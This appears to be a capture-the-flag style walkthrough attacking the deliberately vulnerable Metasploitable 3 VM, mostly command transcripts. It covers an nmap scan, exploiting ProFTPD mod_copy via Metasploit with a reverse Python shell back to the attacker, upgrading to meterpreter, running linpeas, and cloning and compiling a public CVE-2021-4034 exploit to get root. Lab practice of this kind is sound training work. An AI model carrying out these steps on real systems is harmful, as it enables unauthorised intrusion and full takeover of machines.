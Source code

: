# Metasploitable 3 Walkthrough
> Quasar | 2022

## Initial analysis:
Nmap scan: ``% nmap -T4 -Pn -oN nmap_ports.txt -sV 192.168.244.133`` where ``192.168.244.133`` is the IP address of the Virtual Machine
Results:
```
PORT     STATE  SERVICE     VERSION
21/tcp   open   ftp         ProFTPD 1.3.5
22/tcp   open   ssh         OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.13 (Ubuntu Linux; protocol 2.0)
80/tcp   open   http        Apache httpd 2.4.7 ((Ubuntu))
445/tcp  open   netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
631/tcp  open   ipp         CUPS 1.7
3000/tcp closed ppp
3306/tcp open   mysql       MySQL (unauthorized)
8080/tcp open   http        Jetty 8.1.7.v20120910
8181/tcp closed intermapper
Service Info: Host: UBUNTU; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

Let's try the first hit on metasploit:

``% msfconsole ``

```
msf6 > search proftpd
Matching Modules
================
   #  Name                                         Disclosure Date  Rank       Check  Description
   -  ----                                         ---------------  ----       -----  -----------
   0  exploit/linux/misc/netsupport_manager_agent  2011-01-08       average    No     NetSupport Manager Agent Remote Buffer Overflow
   1  exploit/linux/ftp/proftp_sreplace            2006-11-26       great      Yes    ProFTPD 1.2 - 1.3.0 sreplace Buffer Overflow (Linux)
   2  exploit/freebsd/ftp/proftp_telnet_iac        2010-11-01       great      Yes    ProFTPD 1.3.2rc3 - 1.3.3b Telnet IAC Buffer Overflow (FreeBSD)
   3  exploit/linux/ftp/proftp_telnet_iac          2010-11-01       great      Yes    ProFTPD 1.3.2rc3 - 1.3.3b Telnet IAC Buffer Overflow (Linux)
   4  exploit/unix/ftp/proftpd_modcopy_exec        2015-04-22       excellent  Yes    ProFTPD 1.3.5 Mod_Copy Command Execution
   5  exploit/unix/ftp/proftpd_133c_backdoor       2010-12-02       excellent  No     ProFTPD-1.3.3c Backdoor Command Execution
```

The 4th one seems promising as the version number (1.3.5) matches with the machine.

```
msf6 > use 4
msf6 exploit(unix/ftp/proftpd_modcopy_exec) > show options

Module options (exploit/unix/ftp/proftpd_modcopy_exec):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                      yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT      80               yes       HTTP port (TCP)
   RPORT_FTP  21               yes       FTP port
   SITEPATH   /var/www         yes       Absolute writable website path
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /                yes       Base path to the website
   TMPPATH    /tmp             yes       Absolute writable path
   VHOST                       no        HTTP server virtual host


Exploit target:

   Id  Name
   --  ----
   0   ProFTPD 1.3.5
```

Now, the variables ``RHOSTS`` and the ``SITEPATH`` need to be corrected.

```
msf6 exploit(unix/ftp/proftpd_modcopy_exec) > set RHOSTS 192.168.244.133
msf6 exploit(unix/ftp/proftpd_modcopy_exec) > set SITEPATH /var/www/html
```

Also, we need to set a payload for this exploit. This module only supports cmd/unix/* payloads.
```
msf6 exploit(unix/ftp/proftpd_modcopy_exec) > set payload cmd/unix/
set payload cmd/unix/bind_awk            set payload cmd/unix/generic             set payload cmd/unix/reverse_perl_ssl
set payload cmd/unix/bind_perl           set payload cmd/unix/reverse_awk         set payload cmd/unix/reverse_python
set payload cmd/unix/bind_perl_ipv6      set payload cmd/unix/reverse_perl        set payload cmd/unix/reverse_python_ssl
```
Now:

```
msf6 exploit(unix/ftp/proftpd_modcopy_exec) > set PAYLOAD cmd/unix/reverse_python
msf6 exploit(unix/ftp/proftpd_modcopy_exec) > set LHOST vmnet8
```
``vmnet8`` is my NAT interface (and for) which the listener will be listening on.

```
msf6 exploit(unix/ftp/proftpd_modcopy_exec) > run

[*] Started reverse TCP handler on 192.168.244.1:4444 
[*] 192.168.244.133:80 - 192.168.244.133:21 - Connected to FTP server
[*] 192.168.244.133:80 - 192.168.244.133:21 - Sending copy commands to FTP server
[*] 192.168.244.133:80 - Executing PHP payload /UeJyDI.php
[*] Command shell session 1 opened (192.168.244.1:4444 -> 192.168.244.133:35430) at 2022-07-30 23:15:27 +0530

```

Success, we now have a shell to work with!
```
msf6 exploit(unix/ftp/proftpd_modcopy_exec) > sessions -i 1
[*] Starting interaction with 1...

bash -i
bash: cannot set terminal process group (1794): Inappropriate ioctl for device
bash: no job control in this shell
www-data@ubuntu:/var/www/html$ 
```

Now, let's try for a meterpreter:

```
msf6 post(multi/manage/shell_to_meterpreter) > show options

Module options (post/multi/manage/shell_to_meterpreter):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   HANDLER  true             yes       Start an exploit/multi/handler to receive the connection
   LHOST    192.168.244.1    no        IP of host that will receive the connection from the payload (Will try to auto detect).
   LPORT    4433             yes       Port for payload to connect to.
   SESSION  1                yes       The session to run this module on
```
This is the output after correcting the "blank spots/incorrect variables". Now, running it gives:

```
msf6 post(multi/manage/shell_to_meterpreter) > run
[*] Post module running as background job 0.
[*] Upgrading session ID: 1
[*] Starting exploit/multi/handler
[*] Started reverse TCP handler on 192.168.244.1:4433 
[*] Sending stage (989032 bytes) to 192.168.244.133
[*] Meterpreter session 2 opened (192.168.244.1:4433 -> 192.168.244.133:49703) at 2022-07-30 23:36:49 +0530
[*] Command stager progress: 100.00% (773/773 bytes)

meterpreter > 
```

Cool!
Now, let's try to get root access on this machine.

We scan for any vulnerabilities using linpeas: https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS
Just download it from the web in the machine or upload it using the meterpreter.

```
meterpreter > upload CTF/Metasploitable3/uploads/linpeas.sh
[*] uploading  : /home/quasar/CTF/Metasploitable3/uploads/linpeas.sh -> linpeas.sh
[*] Uploaded -1.00 B of 758.81 KiB (0.0%): /home/quasar/CTF/Metasploitable3/uploads/linpeas.sh -> linpeas.sh
[*] uploaded   : /home/quasar/CTF/Metasploitable3/uploads/linpeas.sh -> linpeas.sh
```

Now, running it inside the machine gives a lot of information about the it.

```
meterpreter > shell
cd /dev/shm
bash -i
www-data@ubuntu:/run/shm$ chmod +x linpeas.sh
www-data@ubuntu:/run/shm$ ./linpeas.sh
```

Immediately, linpeas pops up with a CVE number:

```
╔══════════╣ CVEs Check
Vulnerable to CVE-2021-4034
```

Now, searching for the PoC's for the CVE in internet gave: https://github.com/arthepsy/CVE-2021-4034 (credits intended)
And we have git in the machine.

So,
```
www-data@ubuntu:/run/shm$ git clone https://github.com/arthepsy/CVE-2021-4034
Cloning into 'CVE-2021-4034'...
www-data@ubuntu:/run/shm$ ls
CVE-2021-4034
linpeas.sh
www-data@ubuntu:/run/shm$ cd CVE-2021-4034
www-data@ubuntu:/run/shm/CVE-2021-4034$ ls
README.md
cve-2021-4034-poc.c
www-data@ubuntu:/run/shm/CVE-2021-4034$ cc cve-2021-4034-poc.c
www-data@ubuntu:/run/shm/CVE-2021-4034$ ./a.out
bash -i
bash: cannot set terminal process group (1794): Inappropriate ioctl for device
bash: no job control in this shell
root@ubuntu:/run/shm/CVE-2021-4034# whoami
root
```

And we got root access for the machine.
